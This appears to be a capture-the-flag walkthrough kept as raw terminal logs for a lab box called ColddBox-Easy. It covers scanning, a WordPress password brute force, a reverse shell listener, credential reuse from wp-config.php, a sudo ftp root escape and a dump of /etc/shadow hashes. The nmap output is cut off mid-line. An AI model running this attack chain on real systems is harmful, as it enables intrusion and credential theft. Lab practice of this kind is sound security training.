


nmap
~~~
colddbox
                                                                                                                                                                       
┌──(alpha㉿sploit)-[~/ctf]
└─$ cd colddbox 
                                                                                                                                                                       
┌──(alpha㉿sploit)-[~/ctf/colddbox]
└─$ ping 10.10.212.21      
PING 10.10.212.21 (10.10.212.21) 56(84) bytes of data.
64 bytes from 10.10.212.21: icmp_seq=1 ttl=63 time=243 ms
64 bytes from 10.10.212.21: icmp_seq=2 ttl=63 time=162 ms
^Z
zsh: suspended  ping 10.10.212.21
                                                                                                                                                                       
┌──(alpha㉿sploit)-[~/ctf/colddbox]
└─$ sudo nmap -sV -sC -A -Pn 10.10.212.21 -Ao nmap
[sudo] password for alpha: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-05 21:23 EST
Stats: 0:05:32 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 79.48% done; ETC: 21:30 (0:01:24 remaining)
Stats: 0:13:46 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 85.03% done; ETC: 21:37 (0:00:00 remaining)
Nmap scan report for 10.10.212.21
Host is up (0.16s latency).
Not shown: 999 closed tcp ports (
~~~
gobuster
~~~
┌──(alpha㉿sploit)-[~/ctf/colddbox]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.212.21
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.212.21
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 317] [--> http://10.10.212.21/wp-content/]
/wp-includes          (Status: 301) [Size: 318] [--> http://10.10.212.21/wp-includes/]
/wp-admin             (Status: 301) [Size: 315] [--> http://10.10.212.21/wp-admin/]
/hidden               (Status: 301) [Size: 313] [--> http://10.10.212.21/hidden/]
~~~

wordpress brute force
~~~
┌──(alpha㉿sploit)-[~/ctf/colddbox]
└─$ wpscan --url http://10.10.212.21/ -e u -P /usr/share/wordlists/rockyou.txt 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.212.21/ [10.10.212.21]
[+] Started: Sun Nov  5 21:33:25 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.212.21/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.212.21/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.212.21/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.1.31 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.212.21/?feed=rss2, <generator>https://wordpress.org/?v=4.1.31</generator>
 |  - http://10.10.212.21/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.1.31</generator>

[+] WordPress theme in use: twentyfifteen
 | Location: http://10.10.212.21/wp-content/themes/twentyfifteen/
 | Last Updated: 2023-08-08T00:00:00.000Z
 | Readme: http://10.10.212.21/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.5
 | Style URL: http://10.10.212.21/wp-content/themes/twentyfifteen/style.css?ver=4.1.31
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.212.21/wp-content/themes/twentyfifteen/style.css?ver=4.1.31, Match: 'Version: 1.0'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:02 <=========================================================================================> (10 / 10) 100.00% Time: 00:00:02

[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Wp Login against 4 user/s
[SUCCESS] - c0ldd / 9876543210
~~~

~~~
┌──(alpha㉿sploit)-[~/ctf/colddbox]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.8.5.88] from (UNKNOWN) [10.10.212.21] 45904
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:11:27 up 49 min,  0 users,  load average: 0.77, 1.28, 1.42
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ColddBox-Easy:/$ ls
ls
bin   home            lib64       opt   sbin  tmp      vmlinuz.old
boot  initrd.img      lost+found  proc  snap  usr
dev   initrd.img.old  media       root  srv   var
etc   lib             mnt         run   sys   vmlinuz
www-data@ColddBox-Easy:/$ cd
cd
bash: cd: HOME not set
www-data@ColddBox-Easy:/$ cd /home
cd /home
www-data@ColddBox-Easy:/home$ ls
ls
c0ldd
www-data@ColddBox-Easy:/home$ cd c
cd c0ldd/
www-data@ColddBox-Easy:/home/c0ldd$ ls
ls
user.txt
www-data@ColddBox-Easy:/home/c0ldd$ cat user
cat user.txt 
cat: user.txt: Permission denied
www-data@ColddBox-Easy:/home/c0ldd$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
www-data@ColddBox-Easy:/home/c0ldd$ cd /var/www/html
cd /var/www/html
www-data@ColddBox-Easy:/var/www/html$ ls
ls
hidden           wp-blog-header.php    wp-includes        wp-signup.php
index.php        wp-comments-post.php  wp-links-opml.php  wp-trackback.php
license.txt      wp-config-sample.php  wp-load.php        xmlrpc.php
readme.html      wp-config.php         wp-login.php
wp-activate.php  wp-content            wp-mail.php
wp-admin         wp-cron.php           wp-settings.php
www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php | grep "DB_PASSWORD"

cat wp-config.php | grep "DB_PASSWORD"

define('DB_PASSWORD', 'cybersecurity');
www-data@ColddBox-Easy:/var/www/html$ 
www-data@ColddBox-Easy:/var/www/html$ sudo su
sudo su
[sudo] password for www-data: cybersecurity

Sorry, try again.
[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: 

sudo: 3 incorrect password attempts
www-data@ColddBox-Easy:/var/www/html$ cd
cd
bash: cd: HOME not set
www-data@ColddBox-Easy:/var/www/html$ cd /home
cd /home
www-data@ColddBox-Easy:/home$ ls
ls
c0ldd
www-data@ColddBox-Easy:/home$ su c0ldd  
su c0ldd
Password: cybersecurity
                                                                                                                                                                       
c0ldd@ColddBox-Easy:/home$ ls                                                                                                                                          
ls                                                                                                                                                                     
c0ldd                                                                                                                                                                  
c0ldd@ColddBox-Easy:/home$ cd                                                                                                                                          
cd                                                                                                                                                                     
c0ldd@ColddBox-Easy:~$ ls                                                                                                                                              
ls                                                                                                                                                                     
user.txt                                                                                                                                                               
c0ldd@ColddBox-Easy:~$ cat us                                                                                                                                          
cat user.txt                                                                                                                                                           
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
c0ldd@ColddBox-Easy:~$ sudo -l
sudo -l
[sudo] password for c0ldd: cybersecurity

Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
c0ldd@ColddBox-Easy:~$ ls
ls
user.txt
c0ldd@ColddBox-Easy:~$ ls -al
ls -al
total 24
drwxr-xr-x 3 c0ldd c0ldd 4096 oct 19  2020 .
drwxr-xr-x 3 root  root  4096 sep 24  2020 ..
-rw------- 1 c0ldd c0ldd    0 oct 19  2020 .bash_history
-rw-r--r-- 1 c0ldd c0ldd  220 sep 24  2020 .bash_logout
-rw-r--r-- 1 c0ldd c0ldd    0 oct 14  2020 .bashrc
drwx------ 2 c0ldd c0ldd 4096 sep 24  2020 .cache
-rw-r--r-- 1 c0ldd c0ldd  655 sep 24  2020 .profile
-rw-r--r-- 1 c0ldd c0ldd    0 sep 24  2020 .sudo_as_admin_successful
-rw-rw---- 1 c0ldd c0ldd   53 sep 24  2020 user.txt
c0ldd@ColddBox-Easy:~$ sudo -l
sudo -l
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
c0ldd@ColddBox-Easy:~$
~~~

~~~
c0ldd@ColddBox-Easy:~$ sudo ftp
sudo ftp
ftp> !/bin/bash

!/bin/bash
root@ColddBox-Easy:~# 
root@ColddBox-Easy:~# ls 
ls
user.txt
root@ColddBox-Easy:~# cd /root
cd /root
root@ColddBox-Easy:/root# ls
ls
root.txt
root@ColddBox-Easy:/root# cat ro
cat root.txt 
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
~~~
my favorite 
~~~
root@ColddBox-Easy:/root# cat /etc/shadow
cat /etc/shadow
root:$6$VMnvWAfh$Yg04FhiScJ8Pv3ET6Ys.4G.BdLC0HyyxcDB1jVa28F20gdz4zI.GyrQSg8elF4nx3yH1g3ZKA/uvO8Fqll.T70:18939:0:99999:7:::
daemon:*:18484:0:99999:7:::
bin:*:18484:0:99999:7:::
sys:*:18484:0:99999:7:::
sync:*:18484:0:99999:7:::
games:*:18484:0:99999:7:::
man:*:18484:0:99999:7:::
lp:*:18484:0:99999:7:::
mail:*:18484:0:99999:7:::
news:*:18484:0:99999:7:::
uucp:*:18484:0:99999:7:::
proxy:*:18484:0:99999:7:::
www-data:*:18484:0:99999:7:::
backup:*:18484:0:99999:7:::
list:*:18484:0:99999:7:::
irc:*:18484:0:99999:7:::
gnats:*:18484:0:99999:7:::
nobody:*:18484:0:99999:7:::
systemd-timesync:*:18484:0:99999:7:::
systemd-network:*:18484:0:99999:7:::
systemd-resolve:*:18484:0:99999:7:::
systemd-bus-proxy:*:18484:0:99999:7:::
syslog:*:18484:0:99999:7:::
_apt:*:18484:0:99999:7:::
lxd:*:18529:0:99999:7:::
messagebus:*:18529:0:99999:7:::
uuidd:*:18529:0:99999:7:::
dnsmasq:*:18529:0:99999:7:::
c0ldd:$6$AnciUfDx$Y9lDZThc6/Q/rWMajprHD54ynCLBmy8swBujZO.CG6b7j7YZiR/RIrdhzn2euH1A9r2jJE2U0bbLarUFdwSI40:18529:0:99999:7:::
sshd:*:18529:0:99999:7:::
mysql:!:18529:0:99999:7:::
root@ColddBox-Easy:/root#
~~~~

